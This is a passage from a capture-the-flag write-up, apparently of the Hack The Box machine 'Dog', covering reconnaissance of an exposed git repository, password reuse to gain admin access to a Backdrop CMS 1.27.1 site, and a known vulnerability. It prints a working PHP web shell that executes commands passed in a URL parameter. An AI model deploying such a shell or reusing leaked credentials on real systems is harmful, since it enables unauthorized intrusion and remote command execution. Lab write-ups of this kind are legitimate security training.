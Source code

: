 Continuing the analysis of the `.git` repository, I examined the Git history using `git log`. The initial commit revealed the use of an internal email address :

![Capture d'écran 2025-05-03 194223](https://github.com/user-attachments/assets/aa251a36-7915-462d-aeba-a3afb514dc21)

This confirmed the domain `@dog.htb` as being associated with the organization. Based on this, I decided to search recursively through the repository for any other occurrences of email addresses tied to this domain :

```sh
grep -r "@dog.htb"
```

This search led to the discovery of another internal email address :

![Capture d'écran 2025-05-03 194613](https://github.com/user-attachments/assets/6a7b436d-e0f7-424f-9a30-f488249e18cb)

At this point, I hypothesized that this `user` could be another employee who worked on the project. With this potential username, I considered the possibility of password reuse, especially with the previously discovered database password.

![Capture d'écran 2025-05-03 194815](https://github.com/user-attachments/assets/12dfe2c6-4b01-45be-8698-0b02dd330ee3)

It worked! And we can see that we are admin of the website. 

--- 
### Initial foothold

While browsing the site using the **admin privileges** obtained through this account, I identified that the site is running **Backdrop CMS version 1.27.1**. This version detail is important, as it can be used to search for **known vulnerabilities** that might affect this specific CMS version.

![Capture d'écran 2025-05-03 203515](https://github.com/user-attachments/assets/5401bd96-c61d-4e89-b641-2ee18456e3da)

And I've found this **known vulnerabilities** : 

![Capture d'écran 2025-05-03 203852](https://github.com/user-attachments/assets/6ba71261-21b6-4de7-9634-4f2d9a42e7f7)

The code provides us with a `shell.php` file packaged inside a `.zip` archive. This `shell.php` file contains the following code, which enables **Remote Code Execution (RCE)** :

```python
<html>
  <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
      <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
      <input type="SUBMIT" value="Execute">
    </form>
    <pre>
    <?php
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
    }
    ?>
    </pre>
  </body>
</html>

```
